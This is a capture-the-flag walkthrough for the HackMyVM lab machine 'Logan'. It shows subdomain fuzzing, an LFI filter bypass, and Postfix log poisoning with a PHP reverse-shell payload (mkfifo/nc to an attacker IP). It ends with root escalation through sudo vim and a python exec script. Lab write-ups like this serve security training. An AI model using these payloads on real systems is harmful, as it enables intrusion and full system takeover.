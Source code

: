 # writeup logan hackmyvm

## machine info
- VmName : Logan
- Creator : d3b0o
- Level : medium
- Link : [https://downloads.hackmyvm.eu/logan.zip](https://downloads.hackmyvm.eu/logan.zip)

## walkthrough
### summary
- get a subdomain using web fuzzer
- find LFI from the subdomain web site
- write php reverse shell into postfix log file
- get a user shell (www-data) using LFI
- get a user shell (logan) using sudo command
- get a root shell using sudo command

### get machine ip address
```
sudo netdiscover -i eth0 -r 192.168.0.0/24
```
```mermaid
flowchart LR
    id1("kali (attacker)
    192.168.0.4")
    ----
    id2("logan.hmv (target)
    192.168.0.254")
```

### scan open ports
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nmap -T4 -sC -sV -p- -oN nmap.log 192.168.0.254
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-19 03:21 EDT
Nmap scan report for discover (192.168.0.254)
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
| ssl-cert: Subject: commonName=logan
| Subject Alternative Name: DNS:logan
| Not valid before: 2023-07-03T13:46:49
|_Not valid after:  2033-06-30T13:46:49
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: logan.hmv, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  logan.hmv

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds
```

### get a user shell
I checked out a website (port 80).
- whatweb
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ whatweb http://logan.hmv                  
http://logan.hmv [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.168.0.254], JQuery[3.4.1], Script[text/javascript], Title[Logan], X-UA-Compatible[IE=edge]
```
![](./img/web_01.png)

I think that a form of this website is not working.
![](./img/web_02.png)
![](./img/web_03.png)

I could not find useful information from the website.
So, I tried to find a subdomain.
- wfuzz
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://logan.hmv" -H "HOST: FUZZ.logan.hmv" -t 100 -Z --hh 65 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://logan.hmv/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================

000000024:   200        62 L     101 W      1112 Ch     "admin - admin"                                                            
000009532:   400        10 L     35 W       301 Ch      "#www - #www"                                                              
000010581:   400        10 L     35 W       301 Ch      "#mail - #mail"                                                            
000047706:   400        10 L     35 W       301 Ch      "#smtp - #smtp"                                                            
000103135:   400        10 L     35 W       301 Ch      "#pop3 - #pop3"                                                            

Total time: 217.2565
Processed Requests: 114441
Filtered Requests: 114436
Requests/sec.: 526.7551
```

I could find a subdomain website (admin.logan.hmv).
So, I checked out the website.
- Administration panel
![](./img/web_04.png)
- Upload files
![](./img/web_05.png)
I have uploaded some files. But, I could not find the files from the website.
- Logs
![](./img/web_06.png)
There was neither clearlogs.php file nor backup files (clearlogs.php.bak, and so on) on the website.
- Payments
![](./img/web_07.png)
I found that there was some files (01, 02, 03) on the website.
I realized the website removed "../" strings from input strings after trying many things.
![](./img/web_08.png)
So, I tried "....//....//....//....//etc/passwd" strings, I could get LFI (Local File Inclusion) from the website.
![](./img/web_09.png)

Because I could read a postfix log file from the website using LFI, I tried to get a shell using it.
![](./img/web_10.png)
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nc logan.hmv 25
220 logan.hmv ESMTP Postfix (Ubuntu)
mail from:logan
250 2.1.0 Ok
rcpt to:<?php exec("rm /tmp/p;mkfifo /tmp/p;cat /tmp/p|/bin/sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/p"); ?>
501 5.1.3 Bad recipient address syntax
```
![](./img/shell_01.png)
I could get a user shell (www-data).

When I executed sudo command, I found that I could execute vim command with logan's privileges.
```
www-data@logan:/var/www/admin$ sudo -l
Matching Defaults entries for www-data on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on logan:
    (logan) NOPASSWD: /usr/bin/vim
www-data@logan:/var/www/admin$ 
```

So, I executed vim command with logan's privileges and execute bash command from vim.
![](./img/shell_02.png)
```
www-data@logan:/var/www/admin$ sudo -u logan /usr/bin/vim

logan@logan:/var/www/admin$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan),27(sudo),1002(administration)
```

I could get a user shell (logan) and a user flag (logan). 😺
```
logan@logan:~$ ls -la
total 36
drwxr-xrwx 4 logan logan 4096 Jul 18 08:42 .
drwxr-xr-x 3 root  root  4096 Jul 17 20:59 ..
lrwxrwxrwx 1 root  root     9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r-x 1 logan logan  220 Jan  6  2022 .bash_logout
-rw-r--r-x 1 logan logan 3771 Jan  6  2022 .bashrc
drwx---r-x 2 logan logan 4096 Jul  3 13:41 .cache
drwxrwxr-x 3 logan logan 4096 Jul 17 12:08 .local
-rw-r--r-x 1 logan logan  807 Jan  6  2022 .profile
-rw-r--r-x 1 logan logan    0 Jul  3 13:42 .sudo_as_admin_successful
-rw-r--r-- 1  1002  1003   68 Jul 17 12:41 to-do
-rw-r--r-- 1 logan logan   16 Jul 17 20:45 user.txt
logan@logan:~$ cat user.txt 
User: i*******s
```

### get a root shell
```
logan@logan:~$ cat to-do 
- Go outside
- Try the new script that gave me root to learn python
```

When I executed sudo command, I found that I could execute a python script with root's privileges.
```
logan@logan:~$ sudo -l
Matching Defaults entries for logan on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User logan may run the following commands on logan:
    (root) NOPASSWD: /usr/bin/python3 /opt/learn_some_python.py
logan@logan:~$ ls -l /opt/learn_some_python.py
-rw------- 1 root root 132 Jul 18 08:48 /opt/learn_some_python.py
```

So, I tried to execute the script.
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

aaaaa
Traceback (most recent call last):
  File "/opt/learn_some_python.py", line 3, in <module>
    exec(comand)
  File "<string>", line 1, in <module>
NameError: name 'aaaaa' is not defined
```

It looks like I can enter python scripts into the exec function.
So, I entered the following.
```
import os;os.system("/bin/bash");
```
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

import os;os.system("/bin/bash");
root@logan:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

I could get a root shell and a root flag. 😺
```
root@logan:~# ls -la
total 48
drwx------  5 root root 4096 Jul 17 21:02 .
drwxr-xr-x 19 root root 4096 Jul  3 13:40 ..
lrwxrwxrwx  1 root root    9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Jul  3 14:10 .launchpadlib
-rw-------  1 root root   20 Jul 17 11:52 .lesshst
drwxr-xr-x  3 root root 4096 Jul  3 13:46 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Jul  4 19:13 .selected_editor
-rw-r--r--  1 root root    0 Jul  3 13:45 .sudo_as_admin_successful
-rw-------  1 root root  985 Jul 17 14:27 .viminfo
-rw-r--r--  1 root root  169 Jul  3 14:15 .wget-hsts
-rw-r--r--  1 root root   17 Jul 17 20:44 root.txt
drwx------  3 root root 4096 Jul  4 15:52 snap
root@logan:~# cat root.txt 
Root: s********u
```
